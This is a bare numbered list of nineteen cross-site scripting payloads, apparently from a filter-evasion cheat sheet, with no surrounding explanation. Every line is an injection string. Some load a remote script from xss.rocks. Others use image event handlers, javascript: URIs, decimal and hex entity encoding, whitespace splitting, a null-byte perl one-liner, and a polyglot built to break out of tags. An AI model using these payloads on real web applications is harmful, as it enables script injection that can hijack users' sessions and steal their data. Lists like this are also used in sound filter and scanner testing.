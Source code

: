 1.<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
2.javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
3.<IMG SRC="javascript:alert('XSS');">
4.<IMG SRC=javascript:alert('XSS')>
5.<IMG SRC=javascript:alert(&quot;XSS&quot;)>
6.<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
7.<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
8.<IMG SRC=# onmouseover="alert('xxs')">
9.<IMG onmouseover="alert('xxs')">
10.<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
11.<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
12.<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
13.<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
14.<IMG SRC="jav	ascript:alert('XSS');">
15.<IMG SRC="jav&#x0A;ascript:alert('XSS');">
16.perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
17.<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
18.<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
19.<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>

